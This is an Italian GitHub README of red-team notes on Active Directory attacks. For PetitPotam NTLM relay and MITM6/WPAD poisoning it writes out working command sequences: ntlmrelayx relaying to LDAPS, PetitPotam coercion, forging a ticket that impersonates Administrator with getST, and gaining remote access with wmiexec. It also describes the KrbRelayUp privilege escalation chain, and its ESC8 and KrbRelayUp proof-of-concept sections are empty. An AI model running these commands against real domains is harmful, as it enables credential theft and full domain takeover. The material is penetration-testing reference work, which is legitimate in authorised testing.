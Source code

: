 # ADTech

Appunti, metodologia di penetration test per il rilevamento di anomalie, elenco di strumenti, script e comandi di Windows che trovo utili durante INPT/AS/RED TEAMING.

## Tabelle contenuti

- [Attacco 1. PetitPotam - NTLMv1 relay attack](#Attacco-1-PetitPotam-NTLMv1-relay-attack-)
- [Attacco 2. Enumerazione AD da non autenticato sfruttando MITM6](#Attacco-2-Enumerazione-AD-da-non-autenticato-sfruttando-MITM6-)
- [Attacco 3. Sfruttamento ESC 8 ADCS](#Attacco-3-Sfruttamento-ESC-8-ADCS-)
- [Attacco 4. KrbRelayUp Kerberos Relay Attack with RBCD method](#Attacco-4-KrbRelayUp-Kerberos-Relay-Attack-with-RBCD-method-)
----------------
### Attacco 1. PetitPotam - NTLMv1 relay attack 🔐🕸🧑🏼‍💻

#### Prerequisiti

➤ PetitPotam sul Domain Controller

➤ Uso di NTLMv1 come protocollo di autenticazione (lo vedi con un Responder ad esempio)

➤ Almeno 2 Domain Controller

#### Proof of Concept

➤ Set-up NTLM relay verso il servizio LDAP su l'altro Domain Controller

```
Terminale 1:

python3 ntlmrealyx.py -t ldaps://<DC2 IP> --remove-mic -smb2support --delegate-access
```

➤ Exploit della vulnerabilità PetitPotam, sfruttando il protocollo MS-EFSRPC per fare una chiamata API che triggera il target (DC1) ad autenticarsi alla macchina controllata dall'attaccante. Tale attacco funziona senza avere una utenza di dominio.

```
Terminale 2:

python3 PetitPotam.py -d <domain> <IP Attacker> <DC1 IP>
```

➤ La macchina attaccante riceve NTLM e lo inoltra al secondo DC tramite LDAP. Nello specifico l'attacco porta alla creazione di un nuovo computer macchina che gli viene assegnata la delega di impersonificare qualsiasi utente dentro DC1

➤ Viene forgiato un Silver Ticket per impersonificare un Amminsitratore dentro DC1. Ti salva il TGS in Administrator.ccache

```
python3 getST.py -spn cifs/<FQDN DC1> -impersonate Administrator <domain>/'<username computer macchina creato>'
```

➤ Forgiato il ticket è possibile accedere a DC1

```
KRB5CCNAME=Administrator.ccache python3 wmiexec.py -k -no-pass @FQDN DC1 
```

-----------------
#### Attacco 2. Enumerazione AD da non autenticato sfruttando MITM6 🕵

#### Teoria

➤ Per impostazione predefinita, tutte le versioni di Windows da Windows Vista in poi (incluso le varianti server) hanno IPv6 abilitato e lo preferiscono rispetto a IPv4. 

➤ L'attacco è stato eseguito avvelenando le risposte DHCPv6 alle richieste legittime, assegnando alla vittima un indirizzo IPv6 nell'intervallo link-local e configurando contemporaneamente l'IP dell'attaccante come il server DNS IPv6 predefinito. A causa della preferenza di Windows per i protocolli IP, il server DNS IPv6 sarà preferito rispetto al server DNS IPv4. Un client Windows utilizzerà il server DNS IPv6 malevolo per interrogare sia i record A (IPv4) che AAAA (IPv6), e il suo traffico sarà reindirizzato a un endpoint specificato dall'attaccante. A questo punto, l'attacco è in grado di intercettare gli hash NetNTLMv2 inviati in risposta dai client vittima.
 
➤ Quando la macchina di un utente malintenzionato sta intercettando il traffico IPv6, può intercettare le richieste di autenticazione, intercettare le credenziali NTLM e trasmetterle utilizzando ntlmrelayx a un controller di dominio. Se la richiesta di autenticazione inoltrata era da un amministratore di dominio, l'utente malintenzionato può quindi utilizzare tale credenziali NTLM per creare un account utente per se stessi sul dominio

#### Prerequisiti

➤ Ci deve essere IPV6 attivo.

#### Proof of Concept

```
Terminale 1:

sudo mitm6 -i {Network Interface}
```

➤ Imposteremo ntlmrelayx per inoltrare le richieste a LDAPS su un controller di dominio, inviare al client un file WPAD falso e scaricare automaticamente tutte le informazioni che troviamo in una cartella chiamata "loot" sul sistema locale. In sintesi, l'attacco basato su NTLM Relay con falso WPAD è una strategia completa per intercettare e catturare informazioni sensibili come gli hash NTLM (i client, seguendo il meccanismo di auto-configurazione del proxy tramite WPAD, inizieranno a instradare il loro traffico attraverso il proxy controllato dall'attaccante) e potrebbe anche permettere l'enumerazione di Active Directory attraverso il traffico LDAP. 

```
Terminale 2:

impacket-ntlmrelayx -6 -t ldaps://<DC-IP> -wh fakewpad.adlab.com -l loot
```

-----------------
#### Attacco 3. Sfruttamento ESC 8 ADCS 🔓🧑🏼‍💻

-----------------
#### Attacco 4. KrbRelayUp Kerberos Relay Attack with RBCD method 🔓🧑🏼‍💻

#### Teoria
KrbRelayUp è un wrapper che avvolge alcune delle funzionalità di Rubeus e KrbRelay (insieme ad alcuni altri strumenti) al fine di semplificare l'abuso della seguente primitiva di attacco:

➤ Creazione di un nuovo account macchina (New-MachineAccount con un SPN impostato), nell' attributo msDS-AllowedToActOnBehalfOfOtherIdentity

➤ Coercizione dell'autenticazione dell'account macchina locale (utilizzando KrbRelay)

➤ Relay Kerberos a LDAP (utilizzando KrbRelay)

➤ Aggiunta di privilegi basati su risorse vincolati (RBCD) e ottenimento di un privilegiato Silver Ticket (ST) per la macchina locale (utilizzando Rubeus)

➤ Utilizzo di detto Silver Ticket (ST) per autenticarsi presso il Gestore servizi locali e creare un nuovo servizio come NT/SYSTEM (utilizzando SCMUACBypass)

Essenzialmente, si tratta di un'elevazione universale dei privilegi locali non correggibile in ambienti di dominio Windows in cui la firma LDAP non è signing (impostazioni predefinite).

#### Prerequisiti
➤ LDAP not signing (Impostazione predefinita)

#### Proof of Concept
